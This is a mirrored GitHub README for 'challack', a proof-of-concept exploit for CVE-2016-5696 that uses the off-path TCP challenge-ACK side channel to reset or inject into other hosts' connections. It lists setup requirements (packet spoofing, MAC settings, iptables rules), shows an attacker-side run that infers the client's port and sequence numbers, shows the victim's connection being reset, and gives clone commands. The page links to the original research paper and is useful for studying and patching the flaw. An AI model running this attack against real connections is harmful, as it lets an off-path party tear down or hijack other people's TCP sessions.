 # challack

Proof-of-concept exploit code for CVE-2016-5696

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/jduck](https://github.com/jduck) |
| Url      | [https://github.com/jduck/challack](https://github.com/jduck/challack)                                               |
| Stars    | 71                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# Proof-of-concept code for CVE-2016-5696

This code currently allows reseting connections or injecting into sessions. The attack is implemented against both clients and servers.

For detailed information, consult the original publication:

[Off-Path TCP Exploits: Global Rate Limit Considered Dangerous](http://www.cs.ucr.edu/~zhiyunq/pub/sec16_TCP_pure_offpath.pdf)

# Requirements

1. You need to be able to spoof packets (no egress filtering).
2. You'll need to update *ROUTER_MAC* and *LOCAL_MAC* in *challack.c* with your spoof-ready machine's details.
2. You need iptables installed to DROP packets from the target host/port.  Otherwise, your legitimate TCP stack will interfere with this program's operation.  This will appear as an immediate RST after connection establishment.

# DEMO Session Excerpt

NOTE: The addresses have been changed to protect the innocent.

Attacker side:

```
# ./challack -a server.cve-2016-5696.org 80 client.cve-2016-5696.org
[*] Launching off-path challenge ACK attack against:
    server: 31.3.3.7:80
    client: 1.3.3.7 (port hint: 0)
    from: 3.13.3.7
[*] Selected local port: 15083
[*] Starting capture on "eth0" ...
[*] TCP Window size: 14600
[*] TCP handshake complete! Entering interactive session...
[*] Commencing attack...
[*] time-sync: round 1 - 108 challenge ACKs
[*] time-sync: round 2 - 109 challenge ACKs
[*] time-sync: round 3 - 100 challenge ACKs
[*] time-sync: round 4 - 100 challenge ACKs
[*] Time synchronization complete!
[*] tuple-infer: guessed port is in [32768 - 36768) (start: 32768): 100 challenge ACKs - NO
[*] tuple-infer: guessed port is in [36768 - 40768) (start: 36768):  99 challenge ACKs - OK
[*] tuple-infer: guessed port is in [38768 - 40768) (start: 36768): 100 challenge ACKs - NO
[*] tuple-infer: guessed port is in [37768 - 38768) (start: 36768): 100 challenge ACKs - NO
[*] tuple-infer: guessed port is in [37268 - 37768) (start: 36768):  99 challenge ACKs - OK
[*] tuple-infer: guessed port is in [37518 - 37768) (start: 37268): 100 challenge ACKs - NO
[*] tuple-infer: guessed port is in [37393 - 37518) (start: 37268): 100 challenge ACKs - NO
[*] tuple-infer: guessed port is in [37330 - 37393) (start: 37268):  99 challenge ACKs - OK
[*] tuple-infer: guessed port is in [37361 - 37393) (start: 37330):  99 challenge ACKs - OK
[*] tuple-infer: guessed port is in [37377 - 37393) (start: 37361): 100 challenge ACKs - NO
[*] tuple-infer: guessed port is in [37369 - 37377) (start: 37361):  99 challenge ACKs - OK
[*] tuple-infer: guessed port is in [37373 - 37377) (start: 37369):  99 challenge ACKs - OK
[*] tuple-infer: guessed port is in [37375 - 37377) (start: 37373): 100 challenge ACKs - NO
[*] tuple-infer: guessed port is in [37374 - 37375) (start: 37373): 100 challenge ACKs - NO
[*] tuple-infer: guessed port is in [37373 - 37374) (start: 37373):  99 challenge ACKs - OK
[*] Guessed client port (via binary search): 37373
[*] seq-infer: guessed seqs [00000000 - 06f63a00): 4000 packets, 100 challenge ACKs
[*] seq-infer: guessed seqs [06f63a00 - 0dec7400): 4000 packets, 100 challenge ACKs
[*] seq-infer: guessed seqs [0dec7400 - 14e2ae00): 4000 packets, 100 challenge ACKs
[*] seq-infer: guessed seqs [14e2ae00 - 1bd8e800): 4000 packets, 100 challenge ACKs
[*] seq-infer: guessed seqs [1bd8e800 - 22cf2200): 4000 packets, 100 challenge ACKs
[*] seq-infer: guessed seqs [22cf2200 - 29c55c00): 4000 packets, 100 challenge ACKs
[*] seq-infer: guessed seqs [29c55c00 - 30bb9600): 4000 packets, 100 challenge ACKs
[*] seq-infer: guessed seqs [30bb9600 - 37b1d000): 4000 packets, 100 challenge ACKs
[*] seq-infer: guessed seqs [37b1d000 - 3ea80a00): 4000 packets, 100 challenge ACKs
[*] seq-infer: guessed seqs [3ea80a00 - 459e4400): 4000 packets, 100 challenge ACKs
[*] seq-infer: guessed seqs [459e4400 - 4c947e00): 4000 packets, 100 challenge ACKs
[*] seq-infer: guessed seqs [4c947e00 - 538ab800): 4000 packets, 100 challenge ACKs
[*] seq-infer: guessed seqs [538ab800 - 5a80f200): 4000 packets, 100 challenge ACKs
[*] seq-infer: guessed seqs [5a80f200 - 61772c00): 4000 packets, 100 challenge ACKs
[*] seq-infer: guessed seqs [61772c00 - 686d6600): 4000 packets, 100 challenge ACKs
[*] seq-infer: guessed seqs [686d6600 - 6f63a000): 4000 packets,  99 challenge ACKs
[*] Narrowed sequence (1) to 1752000000 - 1868829200!
[*] seq-infer: guessed seqs [6be88300 - 6f63a000): 2000 packets, 100 challenge ACKs
[*] seq-infer: guessed seqs [6a2af480 - 6be88300): 1000 packets,  99 challenge ACKs
[*] seq-infer: guessed seqs [6b09bbc0 - 6be88300): 500 packets,  99 challenge ACKs
[*] seq-infer: guessed seqs [6b791f60 - 6be88300): 250 packets,  99 challenge ACKs
[*] seq-infer: guessed seqs [6bb0d130 - 6be88300): 125 packets, 100 challenge ACKs
[*] seq-infer: guessed seqs [6b94bf40 - 6bb0d130): 63 packets,  99 challenge ACKs
[*] seq-infer: guessed seqs [6ba28f30 - 6bb0d130): 32 packets,  99 challenge ACKs
[*] seq-infer: guessed seqs [6ba9b030 - 6bb0d130): 16 packets,  99 challenge ACKs
[*] seq-infer: guessed seqs [6bad40b0 - 6bb0d130): 8 packets, 100 challenge ACKs
[*] seq-infer: guessed seqs [6bab7870 - 6bad40b0): 4 packets, 100 challenge ACKs
[*] seq-infer: guessed seqs [6baa9450 - 6bab7870): 2 packets,  99 challenge ACKs
[*] seq-infer: guessed seqs [6bab0660 - 6bab7870): 1 packets, 100 challenge ACKs
[*] seq-infer: guessed seqs [6baa9450 - 6bab0660): 1 packets,  99 challenge ACKs
[*] Narrowed sequence (2) to: 1806341200 - 1806370400
[*] seq-infer: guessed seqs [6bab0660 - 6baafd00): 2400 packets, 100 challenge ACKs
[*] seq-infer: guessed seqs [6baafd00 - 6baaed60): 4000 packets, 100 challenge ACKs
[*] seq-infer: guessed seqs [6baaed60 - 6baaddc0): 4000 packets, 100 challenge ACKs
[*] seq-infer: guessed seqs [6baaddc0 - 6baace20): 4000 packets, 100 challenge ACKs
[*] seq-infer: guessed seqs [6baace20 - 6baabe80): 4000 packets, 100 challenge ACKs
[*] seq-infer: guessed seqs [6baabe80 - 6baaaee0): 4000 packets, 100 challenge ACKs
[*] seq-infer: guessed seqs [6baaaee0 - 6baa9f40): 4000 packets, 100 challenge ACKs
[*] seq-infer: guessed seqs [6baa9f40 - 6baa8fa0): 4000 packets,  98 challenge ACKs
[*] seq-infer: guessed seqs [6baa8fa0 - 6baa8000): 4000 packets,  98 challenge ACKs
[*] seq-infer: guessed seqs [6baa8000 - 6baa7060): 4000 packets,  98 challenge ACKs
[*] seq-infer: guessed seqs [6baa7060 - 6baa60c0): 4000 packets,  98 challenge ACKs
[*] seq-infer: guessed seqs [6baa60c0 - 6baa5120): 4000 packets,  98 challenge ACKs
[*] seq-infer: guessed seqs [6baa5120 - 6baa4180): 4000 packets,  98 challenge ACKs
[*] seq-infer: guessed seqs [6baa4180 - 6baa31e0): 4000 packets,  98 challenge ACKs
[*] seq-infer: guessed seqs [6baa31e0 - 6baa2240): 4000 packets,  99 challenge ACKs
[!] Exhausted sequence number search (2)...
```

Victim side:

```
$ ./client server.cve-2016-5696.org 80
[*] connected from port 37373 to server.cve-2016-5696.org:80 on sd 3
    sending request...
    read 251 bytes of data in 0 39221 seconds
    slept 59 148 seconds.
    sending request...
    read 251 bytes of data in 0 27517 seconds
    slept 59 330 seconds.
    sending request...
read: Connection reset by peer
[...]
```



## Get the content

```
git clone https://github.com/jduck/challack
cd challack
```

{% embed url="https://github.com/jduck/challack" %}

<figure><img src="https://avatars.githubusercontent.com/u/479840?v=4" alt=""><figcaption><p>jduck</p></figcaption></figure>
